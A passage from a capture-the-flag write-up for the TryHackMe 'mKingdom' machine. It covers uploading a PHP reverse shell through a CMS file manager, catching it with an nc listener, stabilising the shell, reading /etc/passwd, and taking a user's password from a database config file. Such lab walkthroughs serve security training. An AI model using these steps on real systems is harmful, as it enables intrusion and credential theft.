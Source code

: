 ### Remote Code Execution via PHP Upload

Within the admin dashboard, we navigate to the File Manager. By modifying the configuration, we enable uploads for `.php` files:

![File Types](/ctf/tryhackme/mKingdom/file-types.png)

We then upload a **PHP reverse shell** from [PentestMonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php):

![Upload](/ctf/tryhackme/mKingdom/upload.png)

### Triggering the Reverse Shell

To catch the shell, we start a listener:

```bash
nc -lvnp 1234
```

Then trigger the payload by accessing:

```
http://10.10.52.157:85/app/castle/application/files/8017/4384/2617/reverse-shell.php
```

We successfully receive a reverse shell:

![Reverse Shell](/ctf/tryhackme/mKingdom/reverse-shell.png)

Shell stabilization:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

## Privilege Escalation

### User Enumeration

We check `/etc/passwd` and discover two local users:

```bash
mario:x:1001:1001:,,,:/home/mario:/bin/bash
toad:x:1002:1002:,,,:/home/toad:/bin/bash
```

### Switching to `toad` User

Examining the CMS configuration file reveals credentials:

```bash
cat /var/www/html/app/castle/application/config/database.php
```

```php
'username' => 'toad',
'password' => '*************',
```
